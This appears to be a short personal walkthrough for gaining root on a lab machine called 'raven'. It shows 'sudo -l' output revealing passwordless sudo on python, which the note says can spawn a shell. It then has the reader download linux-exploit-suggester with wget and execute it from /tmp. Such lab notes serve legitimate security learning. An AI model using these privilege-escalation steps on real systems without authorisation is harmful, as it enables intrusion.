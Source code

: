 ```yaml
---
title: Getting Root Access V1
updated: 2022-11-17T09:27:26.0000000+04:00
created: 2022-11-17T09:24:31.0000000+04:00
---
```


Getting Root Access V1
Thursday, November 17, 2022
9:24 AM
**1. Log into either Steven or Michael through SSH**

**2. run the following command:**

\> **sudo -l**

\$ sudo -l
Matching Defaults entries for steven on raven:
env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

<u>User steven may run the following commands on raven:</u>
(ALL) NOPASSWD: /usr/bin/python

***It shows that you can use python and spawn a shell***

3\. **Change the folder to the tmp folder**

\- only place you can launch and execute files

4\. **Use the linux-exploit-suggester.sh**

Command:

wget <https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh> -O les.sh

THEN:

\$ **ls**
les.sh
\$ **chmod 775 les.sh**
\$ **./les.sh**

It will show all possible exploits that may work or not
